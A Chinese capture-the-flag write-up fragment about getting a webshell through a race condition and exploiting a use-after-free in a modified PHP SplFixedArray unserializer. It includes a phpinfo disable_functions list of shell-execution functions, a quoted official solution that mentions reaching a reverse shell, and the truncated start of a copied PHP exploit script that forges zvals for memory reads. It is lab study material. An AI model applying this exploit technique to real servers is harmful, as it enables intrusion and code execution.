 

竞争一波，可以拿到webshell

![phpinfo](/Users/moxiaoxi/Desktop/another/phpinfo.png)

![webshell](/Users/moxiaoxi/Desktop/another/webshell.png)

在phpinfo中，可以看到很多函数被禁用。。。

```
  exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,	exec,passthru,shell_exec,assert,glob,imageftbbox,bindtextdom,dir,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,symlink,chgrp,chmod,chown,dl,mail,readlink,stream_socket_server,fsocket,imap_mail,apache_child_terminate,posix_kill,proc_terminate,proc_get_status,syslog,openlog,ini_alter,chroot,fread,fgets,fgetss,file,readfile,ini_set,ini_restore,putenv,apache_setenv,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,fpassthru,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,fputs,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,highlight_file,show_source,copy,system,
  display_errors                          	                                        

```



接下来的问题在于php.diff.官方题解讲到：



> 根据php.diff，可以得知修改部分在php的SplFixedArray类中，作者为SplFixedArray新增了序列化与反序列化方法。简单阅读修改部分可以发现bug存在于反序列化过程中：如果php_var_unserialize失败，会调用zval_ptr_dtor减少对应zval的引用计数，从而导致其被释放，造成use-after-free。通过伪造zval可以达到任意地址读写与代码执行。
> 拿到reverse shell之后，在根目录发现flag.txt，用flag_reader程序可以读出flag。

orz,反正我看不懂。。。

脚本贴上：

 ```Php
著作权归作者所有。
商业转载请联系作者获得授权，非商业转载请注明出处。
作者：Veneno
链接：http://www.venenof.com/index.php/archives/311/
来源：http://www.venenof.com/

<?php

function ptr2str($ptr)
{
    $out = '';
    for ($i = 0; $i < 8; $i++) {
        $out .= chr($ptr & 0xff);
        $ptr >>= 8;
    }
    return $out;
}

function readmem($address, $length)
{
    $inner = 'x:3;i:0;i:0;i:1;s:8:"AAAAAAAA";i:2;?:2;';
    $fakezval = ptr2str($address);
    $fakezval .= ptr2str($length);
 ```